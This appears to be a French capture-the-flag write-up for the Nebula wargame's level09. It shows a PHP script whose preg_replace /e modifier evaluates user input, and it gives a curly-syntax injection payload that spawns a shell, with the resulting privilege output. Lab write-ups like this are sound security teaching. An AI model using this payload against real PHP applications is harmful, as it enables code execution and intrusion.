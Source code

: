 Cette fois le binaire semble blindé pour éviter que l'on joue avec les variables d'environnement.

Le PHP mentionné est le suivant :

```php
<?php

function spam($email)
{
        $email = preg_replace("/\./", " dot ", $email);
        $email = preg_replace("/@/", " AT ", $email);

        return $email;
}

function markup($filename, $use_me)
{
        $contents = file_get_contents($filename);

        $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
        $contents = preg_replace("/\[/", "<", $contents);
        $contents = preg_replace("/\]/", ">", $contents);

        return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

Les plus anciens auront remarqué la présence de l'option `/e` sur `preg_replace`. C'est un indicateur qui a été déprécié depuis mais ce qu'il se passe sur le match pour l'adresse email dans la fonction `markup` c'est que le code va extraire ce qui se trouve entre `[email ` et `]` (second groupe entre parenthèses). En raison du `/e` la valeur du second groupe est injectée dans l'expression `spam(\"\\2\")` située en second argument de `preg_replace` et exécutée.

Depuis PHP a introduit une fonction plus explicite dont le nom contient `callback`.

Mais malheureusement l'injection n'est pas aussi simple car PHP nous échappe les caractères qui devraient nous permettre d'injecter notre code PHP.

Après recherche il faut utiliser une syntaxe *curly* particulière :

```bash
level09@nebula:/home/flag09$ cat /tmp/test.php
[email {${system(chr(100).chr(97).chr(115).chr(104))}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/test.php yolo
id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
getflag
You have successfully executed getflag on a target account
^C
```
